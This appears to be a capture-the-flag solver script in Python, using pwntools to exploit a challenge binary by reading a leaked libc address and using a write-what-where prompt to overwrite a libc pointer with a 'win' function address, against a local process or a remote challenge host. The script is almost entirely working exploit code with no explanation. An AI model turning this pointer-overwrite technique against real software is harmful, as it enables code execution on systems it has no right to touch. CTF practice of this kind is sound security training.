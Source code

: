 Solver

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        b* 0x00000000004014ba
                        c
                        b* _IO_wfile_overflow

                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./main")
libc=ELF("./libc.so.6")
nc="nc tcp.espark.tn 5515"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

def write(where,what,restart=True):
        p.recvuntil("where ? ")
        p.sendline(hex(where)[2:])
        p.recvuntil("what ? ")
        p.sendline(hex(what)[2:])
        p.recvuntil("Do you want to write again? (y/n): ")
        if restart:
                p.sendline(" y")
        else:
                p.sendline(" n")

############### main exploit    ###############

p.recvuntil("Libc range: ")
libc.address=int(p.recv(14),16)


win=0x00000000004011e6
write(libc.address+0x21a098,win)

p.interactive()
```
